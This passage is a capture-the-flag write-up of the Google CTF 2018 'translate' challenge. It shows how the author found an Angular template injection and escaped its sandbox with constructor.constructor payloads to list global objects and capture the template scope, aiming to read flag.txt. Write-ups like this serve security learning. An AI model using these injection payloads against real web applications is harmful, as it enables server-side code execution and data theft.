 ```html
        <input type="text" id="start" value="0">
        <input type="text" id="end" value="65521">
        <input type="button" onclick="brute()" value="start">
    </body>
</html>
```


## translate

Let's enter the question, we can see:
![TRAN1](/assets/Google-CTF-2018/tran1.png)

There is a wonderful debug option, we shall see:
![TRAN2](/assets/Google-CTF-2018/tran2.png)

Wow, `{{userQuery}}` reminds us template injection. Let's have a try. Now, we know that the server will default output `input_query`. Let's overwrite it with our template:
![TRAN3](/assets/Google-CTF-2018/tran3.png)

Here is the result:
![TRAN4](/assets/Google-CTF-2018/tran4.png)


Now you basically now the work flow. I would not attach picture anymore. And our goal is to fetch flag.txt.

We can break the sandbox and list properties through this:
```javascript 
{% raw %}{{constructor.constructor('return Object.getOwnPropertyNames(global)')()] | json}}{% endraw %}
```

It will return:
```javascript
[ "Object", "Function", "Array", "Number", "parseFloat", "parseInt", "Infinity", "NaN", "undefined", "Boolean", "String", "Symbol", "Date", "Promise", "RegExp", "Error", "EvalError", "RangeError", "ReferenceError", "SyntaxError", "TypeError", "URIError", "JSON", "Math", "console", "Intl", "ArrayBuffer", "Uint8Array", "Int8Array", "Uint16Array", "Int16Array", "Uint32Array", "Int32Array", "Float32Array", "Float64Array", "Uint8ClampedArray", "DataView", "Map", "Set", "WeakMap", "WeakSet", "Proxy", "Reflect", "decodeURI", "decodeURIComponent", "encodeURI", "encodeURIComponent", "escape", "unescape", "eval", "isFinite", "isNaN", "SharedArrayBuffer", "Atomics", "WebAssembly", "VMError", "Buffer", "setTimeout", "setInterval", "setImmediate", "clearTimeout", "clearInterval", "clearImmediate", "process" ]
```

After a few testings, I found that these Objects are not helpful to read the *flag.txt*. Can we use some gadgets from *Angular.js*? But the problem comes. How can we access angular object? 

But wait, when the template is executing, it is inside angular object, which means that `this` will point to the object. Wow, we can use:
```javascript
{% raw %}{{[constructor.constructor('return global')().a=this,constructor.constructor('return Object.getOwnPropertyNames(global.a)')()] | json}}{% endraw %}
```
